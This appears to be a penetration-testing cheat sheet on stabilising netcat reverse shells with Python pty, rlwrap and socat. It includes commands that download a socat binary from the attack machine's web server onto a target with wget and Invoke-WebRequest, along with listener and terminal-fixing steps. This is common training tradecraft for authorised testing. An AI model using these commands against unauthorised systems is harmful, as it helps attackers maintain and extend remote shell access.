 # Netcat Shell Stabilization

nc shells are non-interactive, as they "shells" really being processes running _inside_ a terminal, rather than being an actual terminal.

## Technique 1: Python

Only applicable to Linux boxes.

1. `python -c 'import pty;pty.spawn("/bin/bash")'`
	- uses Python to spawn a better featured bash shell
	- some targets may need a __version__ of python specified
		- replace `python` with `python2` or `python3`
	- will act better, but won't feature auto-complete and CTRL+C will kill
2. `export TERM=xterm`
	- access to term commands such as `clear`
3. Background the shell using __CTRL+Z__
	- In attack machine -> `stty raw -echo; fg`
		- turns off our own terminal echo
		- foregrounds the shell

== Type `reset` on own terminal if shell dies ==

## Technique 2: rlwrap

`rlwrap` gives access to history, tab autocompletion and the arrow keys upon initial shell. __NOT__ installed by default

`sudo apt install rlwrap`

`rlwrap nc -nvlp <PORT>`

- very useful w/ Windows shells
- On Linux, background the shell w/ Ctrl+Z and use `stty raw -echo; fg` on own terminal

## Technique 3: Socat

Use intial netcat shell as a stepping stone for a fully featured socat shell.

- Limited to Linux targets

Transfer a [socat static compiled binar](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) onto the target.

- Use a webserver on the attack machine inside the directory containing the socat binary

`sudo python3 -m http.server 80`

- On target, use netcat to download the file

`wget <LOCAL_IP>/socat -O /tmp/socat`

- On Windows:

`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

### Change terminal size

- Open another terminal

`stty -a`

- Note 'rows' and 'columns' count

- In reverse/bind shell:

`stty rows <numbers>`

`stty cols <number>`


